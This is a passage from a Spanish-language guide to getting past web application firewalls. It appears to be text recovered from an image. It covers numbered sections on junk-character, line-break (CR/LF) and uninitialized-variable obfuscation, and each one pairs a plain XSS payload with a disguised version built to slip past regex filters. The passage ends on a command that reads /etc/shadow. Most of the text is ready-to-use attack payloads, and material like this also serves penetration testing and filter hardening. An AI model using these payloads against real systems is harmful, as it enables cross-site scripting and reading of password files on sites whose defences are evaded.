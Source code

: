 > <iframe/onload='this["src"]="javascript:confirm()"';>

**Ofuscar carga útil**

> <iframe/onload='this["src"]="jav"+"as&Tab;cr"+"ipt:con"+"fir"+"m()"';>

### **10. Técnica de personajes basura**

WAF filtra fácilmente las cargas útiles simples. Agregar algunos caracteres basura ayuda a evitar la detección (solo en casos específicos). Esta técnica a menudo ayuda a confundir los firewalls basados ​​en expresiones regulares.

**Solicitud básica:**

> <script>confirm()</script>

**Ofuscar carga útil:**

> <script>+-+-1-+-+confirm()</script>

**Solicitud básica:**

> <BODY onload=confirm()>

**Ofuscar carga útil:**

> <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()>

**Solicitud básica:**

> <a href=javascript;alert()>ClickMe

**Técnica omitida:**

> <a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe

### **11. Técnica de saltos de línea**

Muchos WAF con filtrado basado en expresiones regulares bloquean eficazmente muchos intentos. La técnica de saltos de línea (CR y LF) puede romper la expresión regular del firewall y omitir cosas.

**Solicitud básica:**

> <iframe src=javascript:confirm(hacker)">

**Ofuscar carga útil:**

> <iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">

### **12. Técnica de variables no inicializadas**

Los filtros basados ​​en expresiones regulares incorrectos se pueden evadir con variables bash no inicializadas. Dicho valor es igual a nulo y actúa como cadenas vacías. Bash y Perl permiten este tipo de interpretaciones.

Ofuscación de primer nivel: normal

**Solicitud básica:**

> /bin/cat /etc/shadow
